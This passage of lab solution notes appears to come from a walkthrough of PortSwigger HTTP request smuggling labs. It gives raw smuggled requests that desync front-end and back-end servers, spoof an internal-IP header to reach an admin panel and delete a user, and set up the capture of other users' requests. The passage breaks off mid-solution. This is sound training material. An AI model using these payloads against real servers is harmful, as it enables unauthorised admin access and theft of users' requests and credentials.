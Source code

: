 5. Make a note of the name of the`` X-*-IP`` header in the rewritten request, and use it to access the admin panel:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
6. Using the previous response as a reference, change the smuggled request URL to delete the user carlos:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

# Exploiting HTTP request smuggling to capture other users' requests
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests


## Solution
1. Visit a blog post and post a comment.
3. Send the ``comment-post`` request to Burp Repeater, shuffle the body parameters so the ``comment`` parameter occurs last, and make sure it still works.
Increase the ``comment-post`` request's ``Content-Length`` to 400, then smuggle it to the back-end server:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
```